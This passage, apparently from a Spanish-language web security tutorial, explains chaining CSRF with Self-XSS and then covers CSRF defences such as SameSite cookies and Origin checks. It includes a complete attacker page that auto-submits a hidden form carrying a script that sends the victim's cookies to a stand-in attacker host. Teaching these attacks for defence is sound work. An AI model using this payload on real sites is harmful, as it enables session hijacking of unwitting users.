 **Explotación Combinada:** El atacante crea una página web maliciosa que contiene un formulario CSRF. Este formulario apunta al endpoint de actualización del perfil y tiene campos ocultos que contienen el payload de Self-XSS.

**Página del Atacante (`attacker-site.com/exploit.html`):**

```html
<html>
  <body onload="document.csrf_xss_form.submit()">
    <p>Cargando contenido exclusivo...</p>
    <form name="csrf_xss_form" action="https://victim-site.com/profile_update_action" method="post">
      <input type="hidden" name="username" value="Víctima"> <input type="hidden" name="name" value="<script>var i=new Image(); i.src='//atacante.com/steal?c='+document.cookie;</script>">
      <input type="hidden" name="description" value="Este es mi nuevo perfil con XSS!">
      </form>
  </body>
</html>
```

**Flujo del Ataque:**

1. El atacante engaña a una víctima (que está autenticada en `victim-site.com`) para que visite `attacker-site.com/exploit.html`.
2. El JavaScript en la página del atacante auto-envía el formulario CSRF.
3. El navegador de la víctima envía la petición POST a `https_victim-site.com/profile_update_action` con las cookies de sesión de la víctima.
4. El servidor de `victim-site.com` procesa la petición y actualiza el perfil de la víctima, guardando el payload XSS (`<script>...document.cookie...</script>`) en el campo "nombre".
5. Ahora, cuando la víctima (o cualquier otra persona, si el perfil es público y el XSS es Stored) visite la página donde se muestra el nombre del perfil, el payload XSS se ejecutará en su navegador, robando sus cookies (o realizando cualquier otra acción maliciosa).

El Self-XSS, que antes solo afectaba al atacante, ahora se ha convertido en un Stored XSS (o Reflected XSS, dependiendo de cómo se muestre el campo) funcional contra la víctima, todo gracias al CSRF.

### Otras Defensas CSRF (Además de Tokens)

- **Cookies SameSite (`Lax` o `Strict`):**
  - Es una de las defensas más efectivas y modernas. Indica al navegador cuándo debe enviar cookies con peticiones cross-site.
  - `Strict`: Las cookies solo se envían si la petición se origina desde el mismo sitio. Bloquea casi todos los CSRF.
  - `Lax`: Las cookies se envían con navegación de alto nivel (e.g., clic en un enlace) pero no con peticiones cross-site "no seguras" (POST, PUT, DELETE) ni con subrecursos (`<img>`, `<iframe>`). `Lax` es el valor por defecto para nuevas cookies en muchos navegadores. Mitiga la mayoría de CSRF vía POST.
- **Comprobación de Cabeceras `Origin` y/o `Referer`:**
  - El servidor puede verificar que la petición provenga de un origen esperado.
  - `Origin`: Enviada por el navegador en peticiones cross-origin (POST, PUT, DELETE, y CORS).
  - `Referer`: Enviada por el navegador indicando la URL de la página anterior.
  - **Limitaciones:** Pueden ser eliminadas por el navegador por razones de privacidad, o a veces pueden ser falseadas o bypassadas en escenarios específicos (e.g., si la política del Referer es muy laxa, o mediante otros exploits). No deben ser la única defensa.
- **Re-autenticación del Usuario:**
  - Para acciones extremadamente sensibles (cambio de contraseña, confirmación de pagos importantes), requerir que el usuario vuelva a introducir su contraseña.
